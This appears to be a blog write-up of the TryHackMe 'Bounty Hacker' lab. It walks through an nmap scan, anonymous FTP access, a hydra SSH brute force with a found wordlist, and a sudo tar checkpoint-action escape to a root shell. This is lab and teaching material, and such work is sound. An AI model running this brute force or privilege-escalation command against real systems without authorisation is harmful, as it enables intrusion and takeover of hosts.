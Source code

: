 ```yaml
---
layout: article
title: Bounty Hacker
aside:
  toc: true
sidebar:
  nav: write-ups
cover: https://miro.medium.com/v2/resize:fit:828/format:webp/0*pSY-gfbX6aNhVPeQ.jpeg
permalink: /writeups/bountyhacker
tags:
- TryHackMe
- Write-Up
---
```


## Introduction
*You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future!*

## Reconnaissance
Deploy the machine e start with recon!
Starting with a port scan we have the following situation:

``` 
Nmap scan report for 10.10.28.89
Host is up (0.082s latency).
Not shown: 55529 filtered tcp ports (no-response), 10003 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

Hint suggest us to look for ftp service.

```shell 
sudo nmap -sV -sC -A 10.10.28.89 -p 21
```

We can connect to ftp service with *anonymous* user.

```shell 
ftp <IP>
```

We have found two txt files.
In one filw we find the username and in the other file a password list.

## Getting a shell
With username and a password list we can use hydra to obtain a shell exploiting ssh service.

```shell 
hydra -l lin -P ./locks.txt ssh://10.10.28.89:22
```

We found the password and now we can connect with ssh.

```shell 
ssh lin@<IP>
```

## Privilege Escalation
I launched `sudo -l` and shell returns me this error: 

```
User lin may run the following commands on bountyhacker: 
	(root) /bin/tar
```

So I searched on Google how to obtain a root shell exploiting `/bin/tar`.

I found the following guide: [https://gtfobins.github.io/gtfobins/tar/](https://gtfobins.github.io/gtfobins/tar/)

I launched the following command:
```shell
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

and I obtained a root shell.

